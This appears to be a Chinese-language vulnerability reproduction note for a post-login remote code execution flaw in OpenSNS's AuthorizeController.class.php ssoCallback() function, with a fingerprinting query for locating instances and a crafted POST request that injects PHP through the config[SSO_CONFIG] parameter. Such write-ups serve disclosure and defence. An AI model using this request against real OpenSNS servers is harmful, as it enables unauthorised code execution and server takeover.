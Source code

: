 # OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

## 漏洞描述

OpenSNS AuthorizeController.class.php文件 ssoCallback() 函数存在命令执行漏洞，在登录的情况下可以获取服务器权限

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235551772.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthorizeController.class.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634375559893-600bdee5-03fe-4da2-8762-c41ded4f3797.png)

其中 config参数可控，构造请求就可以通过 file_put_contents 写入执行任意命令

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634376077943-1f4ae612-7dc6-44a8-963d-0235ce16d1fd.png)

构造请求包

```php
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634376114084-4e3cf1c1-1a1b-4169-bf65-322e2002a947.png)

